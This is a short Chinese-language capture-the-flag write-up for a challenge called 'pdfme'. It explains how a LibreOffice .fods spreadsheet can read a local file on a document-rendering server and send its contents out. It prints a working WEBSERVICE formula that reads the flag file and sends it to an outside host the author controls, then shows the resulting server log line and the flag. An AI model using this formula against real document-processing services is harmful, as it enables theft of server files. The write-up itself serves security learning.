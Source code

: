 # pdfme

這題其實跟DCTF Final某題非常像

只是當初沒解出來，所以這題還是花了很多時間解XD

找個fods file，然後可以在裡頭用libreoffice macro去任意讀檔

讀出來的內容可以用`WEBSERVICE`往外傳

`=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/x&quot;&amp;COM.MICROSOFT.WEBSERVICE(&quot;/home/libreoffice_admin/flag&quot;))`

會收到帶有 flag 的 Request: `[01/Jun/2019:22:05:06 +0000] "OPTIONS /xfb%7Bwh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful%7D%0A HTTP/1.1" 200 193 "-" "LibreOffice"`

`fb{wh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful}`

詳細見payload: flag.fods
